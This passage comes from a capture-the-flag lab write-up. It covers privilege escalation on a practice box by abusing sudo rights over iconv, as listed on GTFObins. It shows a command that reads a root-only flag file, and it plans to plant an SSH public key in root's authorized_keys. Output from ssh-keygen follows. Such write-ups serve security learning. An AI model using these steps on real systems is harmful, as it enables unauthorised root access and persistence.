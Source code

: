 ## GTFObins

Now we can search on [[GTFObins]] for iconv :

![[Pasted image 20250720173537.png]]

We can run `iconv` as root, and according to [GTFObins](https://gtfobins.github.io/gtfobins/iconv/), this can be used to read and write files as root.

This means we could go ahead and read `/root/root.txt`, but what we really want is a root shell :

```
scamsite@TechSupport:/usr/bin$ sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
851b8233a8c09400ec30651bd1529bf1ed02790b  -
```

To achieve this we can generate a keypair on our machine and exploit our ability to run iconv as root to add our public key to root’s authorized keys file. This will allow us to SSH to the box as root.

## Ssh-Keygen

We can use [[SSH-KeyGen]] to generate the key,then write it to our victim via iconv, and access [[SSH]] from our machine as root users :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ ssh-keygen             
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/hax/.ssh/id_ed25519): 
/home/hax/.ssh/id_ed25519 already exists.
Overwrite (y/n)? y
Enter passphrase for "/home/hax/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/hax/.ssh/id_ed25519
Your public key has been saved in /home/hax/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:6n1u9ZUAmxsgf/uMiJkrxQSFgIGsy50tC4ZqAGfQkHA hax@HaxonKali
The key's randomart image is:
+--[ED25519 256]--+
|*=E.. o.         |
|++.  o . . .     |
|..    . o . +    |
|o o    . . = .   |
|++. o o S . + . .|
|++ + . +   o.  ..|
|+ . o o + ..+. . |
|.. . o = .o. o.  |
|.     o.o+.      |
+----[SHA256]-----+
                                                                                                                                       
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ cat /home/hax/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@HaxonKali
```
